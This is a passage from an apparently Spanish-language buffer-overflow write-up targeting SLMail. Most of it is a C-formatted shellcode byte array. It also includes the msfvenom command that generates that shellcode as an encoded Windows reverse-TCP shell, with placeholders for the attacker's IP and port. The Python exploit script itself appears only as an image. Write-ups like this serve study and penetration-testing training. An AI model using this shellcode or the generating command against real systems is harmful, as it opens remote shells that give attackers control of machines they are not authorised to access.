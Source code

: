 ```c
"\x57\x54\x4c\x93\xe3\x0f\x4e\x12\x27\x24\xc7\x0c\x24\x01"
"\x91\xa7\x9e\xfd\x20\x61\xef\xfe\x8f\x4c\xdf\x0c\xd1\x89"
"\xd8\xee\xa4\xe3\x1a\x92\xbe\x30\x60\x48\x4a\xa2\xc2\x1b"
"\xec\x0e\xf2\xc8\x6b\xc5\xf8\xa5\xf8\x81\x1c\x3b\x2c\xba"
"\x19\xb0\xd3\x6c\xa8\x82\xf7\xa8\xf0\x51\x99\xe9\x5c\x37"
"\xa6\xe9\x3e\xe8\x02\x62\xd2\xfd\x3e\x29\xbb\x32\x73\xd1"
"\x3b\x5d\x04\xa2\x09\xc2\xbe\x2c\x22\x8b\x18\xab\x45\xa6"
"\xdd\x23\xb8\x49\x1e\x6a\x7f\x1d\x4e\x04\x56\x1e\x05\xd4"
"\x57\xcb\x8a\x84\xf7\xa4\x6a\x74\xb8\x14\x03\x9e\x37\x4a"
"\x33\xa1\x9d\xe3\xde\x58\x76\xcc\xb7\x62\x96\xa4\xc5\x62"
"\x97\x8f\x43\x84\xfd\xff\x05\x1f\x6a\x99\x0f\xeb\x0b\x66"
"\x9a\x96\x0c\xec\x29\x67\xc2\x05\x47\x7b\xb3\xe5\x12\x21"
"\x12\xf9\x88\x4d\xf8\x68\x57\x8d\x77\x91\xc0\xda\xd0\x67"
"\x19\x8e\xcc\xde\xb3\xac\x0c\x86\xfc\x74\xcb\x7b\x02\x75"
"\x9e\xc0\x20\x65\x66\xc8\x6c\xd1\x36\x9f\x3a\x8f\xf0\x49"
"\x8d\x79\xab\x26\x47\xed\x2a\x05\x58\x6b\x33\x40\x2e\x93"
"\x82\x3d\x77\xac\x2b\xaa\x7f\xd5\x51\x4a\x7f\x0c\xd2\x7a"
"\xca\x0c\x73\x13\x93\xc5\xc1\x7e\x24\x30\x05\x87\xa7\xb0"
"\xf6\x7c\xb7\xb1\xf3\x39\x7f\x2a\x8e\x52\xea\x4c\x3d\x52"
"\x3f"
```

### Código del Script

Para conseguir el shellcode se puede hacer uso de la herramienta **msfvenom**.

> msfvenom -p windows/shell_reverse_tcp LHOST=ip LPORT=443 -a x86 --platform windows -b '\x00\x0a\x0d' -e x86/shikata_ga_nai -f c

El script esta hecho en python3.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/script.png" alt="bof" width="1800" oncontextmenu="return false;">
</div>

---
